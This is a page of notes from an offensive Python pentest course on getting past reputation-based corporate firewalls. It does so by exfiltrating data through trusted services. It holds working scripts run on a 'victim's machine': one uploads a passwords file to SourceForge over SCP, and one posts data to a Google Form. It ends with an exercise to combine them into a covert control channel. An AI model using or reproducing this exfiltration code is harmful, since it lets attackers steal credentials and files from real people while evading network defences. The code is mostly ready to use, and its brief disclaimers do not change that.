

# Bypassing Next Generation Firewalls

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


Corporate firewall (Next Generation Firewalls) can block traffic based on the reputation of the target IP/url. This means that once we achieve to execute the malicious client side script on the victim's machine, this next generation firewall might block/defer the connection if the reputation or the rank of the target URL/IP belongs to a pool of resources supplied by the vendor and it's categorized as low.

To overcome this filter, modern malware is using trusted targets.

## Using Source Forge for data exfiltration

**1.** Signup in Source Forge

You will get credentials for configuring your SFTP agent in step 3.


**2.** Install filezilla. It will work as our SFTP agent: 

```bash
sudo apt-get install filezilla
```

**3.** Configure filezilla and connect.
```
Host: web.sourceforge.net
username: usernameinSourceForge
password: passwordinSourceForge
port: 22
```

**4.** Install these two python libraries on the victim's machine: paramiko and scp.

```
pip install paramiko
pip install scp
```

**5.** Run the script on the victim's machine:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read SourceForge terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import paramiko
import scp

# File Management on SourceForge 
# [+] https://sourceforge.net/p/forge/documentation/File%20Management/


ssh_client = paramiko.SSHClient() # creating an ssh_client instance using paramiko sshclient class

ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

ssh_client.connect("web.sourceforge.net", username="myusernameatSourceForge", password="PASSWORD HERE") #Authenticate ourselves to the sourceforge. Server, user and password from step 1
print ("[+] Authenticating against web.sourceforge.net")

scp = scp.SCPClient(ssh_client.get_transport()) #after a sucessful authentication the ssh session id will be passed into SCPClient function

scp.put("C:/Users/Alex/Desktop/passwords.txt") # upload a file, for instance password.txt
print ("[+} File is uploaded")

scp.close()

print("[+] Closing the socket")

```

## Using Google Forms for submitting output

**1.** Create a Google Form with a quick test and copy the link of the survey.

**2.** Copy the name of the form from the source code of the google form.



**3.** Paste URL of the survey +  name of the form in the script:

```python
'''
Caution
--------
Using this script for any malicious purpose is prohibited and against the law. Please read Google terms and conditions carefully. 
Use it on your own risk. 
'''

# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


import requests

url = 'https://docs.google.com/forms/d/1Ndjnm5YViqIYXyIuoTHsCqW_YfGa-vaaKEahY2cc5cs/formResponse'

form_data = {'entry.1301128713':'Lets see how we can use this, in the next exercise'}

r = requests.post(url, data=form_data)

# Submitting form-encoded data in requests:-
# http://docs.python-requests.org/en/latest/user/quickstart/#more-complicated-post-requests
```


### Exercise 

```
Try to combine the above ideas (Google Form + Twitter + SourceForge) Into a single script and see if you can control your target without direct interaction.
```
